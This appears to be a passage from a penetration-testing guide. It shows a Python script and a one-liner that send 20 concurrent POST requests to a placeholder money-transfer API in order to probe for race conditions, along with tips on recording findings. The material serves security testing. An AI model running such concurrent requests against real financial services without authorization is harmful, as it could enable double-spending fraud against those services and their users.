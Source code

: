 **Tip**: Save Postman requests and responses as exports or screenshots. Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., API responses).

### 8. Test High-Volume Concurrent Requests with Python Requests

**Objective**: Simulate race conditions with high concurrency.

**Steps**:
1. **Write Script**:
   - Use threading for high-volume requests.
2. **Run Script**:
   - Execute and analyze responses.
3. **Verify Findings**:
   - Cross-check with Burp Suite.

**Python Script**:
```python
import requests
import threading
import sys

url = 'http://example.com/api/v1/transfer'
data = {'account_id': '123', 'amount': 100.00}

def send_request():
    try:
        response = requests.post(url, json=data, timeout=5)
        print(f"Status: {response.status_code}, Response: {response.text[:100]}")
    except requests.RequestException as e:
        print(f"Error: {e}")

try:
    threads = [threading.Thread(target=send_request) for _ in range(20)]
    for t in threads:
        t.start()
    for t in threads:
        t.join()
except Exception as e:
    print(f"Error: {e}")
    sys.exit(1)
```

**Python Commands**:
- **Command 1**: Run script:
  ```bash
  python3 test_high_volume.py
  ```
- **Command 2**: Test single request:
  ```bash
  python3 -c "import requests; url='http://example.com/api/v1/transfer'; data={'account_id': '123', 'amount': 100.00}; r=requests.post(url, json=data, timeout=5); print(r.status_code, r.text[:100])"
  ```
